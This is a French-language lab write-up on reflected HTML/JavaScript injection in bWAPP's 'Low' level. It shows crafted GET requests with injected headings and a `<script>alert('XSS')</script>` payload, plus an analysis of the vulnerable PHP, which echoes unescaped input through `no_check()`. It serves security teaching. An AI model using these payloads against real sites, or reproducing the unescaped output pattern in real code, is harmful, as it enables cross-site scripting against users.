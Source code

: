 # Niveau "Low"

## Exploitation

L'exploitation est ici triviale. Le prénom et le nom sont renseignés dans un formulaire transféré par la méthode HTTP `GET` :&#x20;

![Formulaire et affichage du nom et prénom de l'utilisateur](<../../../../../.gitbook/assets/image (21).png>)

Dont voici la requête :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=pr%C3%A9nom&lastname=nom&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=0
Connection: close
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (GET)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_get.php" method="GET">
    <p>
      <label for="firstname">First name:</label><br />
      <input type="text" id="firstname" name="firstname">
    </p>
    <p>
      <label for="lastname">Last name:</label><br />
      <input type="text" id="lastname" name="lastname">
    </p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prénom nom
</div>
```

Une première tentative d'injection peur se faire en se limitant à du code HTML, bien qu'il soit également possible d'injecter du Javascript :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%3Ch1%3ETitre+H1+contenant+le+pr%C3%A9nom%3C%2Fh1%3E&lastname=%3Ch1%3ETitre+H1+contenant+le+nom%3C%2Fh1%3E&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=0
Connection: close
```

![Injection HTML dans le champ firstname et lastname](<../../../../../.gitbook/assets/image (13).png>)

Mais l'injection Javascript est également tout à fait possible, ici avec `<script>alert('XSS')</script>` :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&lastname=nom&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=0; PHPSESSID=0b0bfacccccd5a0692b45538f09f0b97
Connection: close
```

![Injection Javascript dans le champ firstname](<../../../../../.gitbook/assets/image (7).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_get.php" %}
```php
if(isset($_GET["firstname"]) && isset($_GET["lastname"])) {
  $firstname = $_GET["firstname"];
  $lastname = $_GET["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_get.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Low" correspond à la valeur 0, c'est à dire ici à l'exécution de la méthode `no_check()` qui retourne simplement la donnée :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data
}
```
{% endcode %}
